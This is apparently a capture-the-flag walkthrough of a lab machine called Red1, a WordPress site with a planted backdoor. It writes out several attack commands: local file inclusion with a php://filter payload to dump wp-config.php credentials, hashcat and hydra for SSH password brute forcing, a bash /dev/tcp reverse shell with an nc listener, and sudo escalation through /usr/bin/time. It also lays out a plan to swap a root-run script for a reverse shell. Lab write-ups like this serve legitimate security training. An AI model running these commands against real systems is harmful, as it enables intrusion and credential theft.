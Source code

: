 # Red1
**IP: 10.0.4.7**
<br>
First of all, I did an `nmap` scan and found that there were two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```

I went to the sitemap and found that there was a user named:
administrator

Checked it on the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlist with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a WordPress site. Also, we know that WordPress sites have wp-config.php file where there is a lot of interesting information. If we try to access it we won't see it since our browser automatically translates php code. However, we can find a PHP base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
It will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is an open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is a backdoor file. Let's download it and see what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line that says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of a hint.<br>
We know that `hashcat` is a tool for password brute-forcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need to get acquainted with password-cracking rules._ Also, we can make an assumption that the rule is best64 since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt`, and generate a custom wordlist with `hashcat` and a rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to brute-force into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there are three users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicked us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kicked out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
<br>
So now we have our new shell. Let's look at how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.<br>
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of the root user, but we have only privileges of ippsec, so we need to specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>
I used the next command to find all the folders where I have permission to write.<br>
`find / -writable -type d 2>/dev/null`<br>
It gave a couple of them, but the interesting one for me was:<br>
> /var/www/wordpress/.git <br>
If we go there, there are two files owned by root.<br>
I assume that the root user runs the rev file occasionally. But let's look at the processes to make sure.<br>
I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
I downloaded it to my machine, started the Python HTTP server, and downloaded it to the victim's machine.<br>
For some reason, it says that there is no storage left and I cannot download anything to the machine. However, the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would be a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.









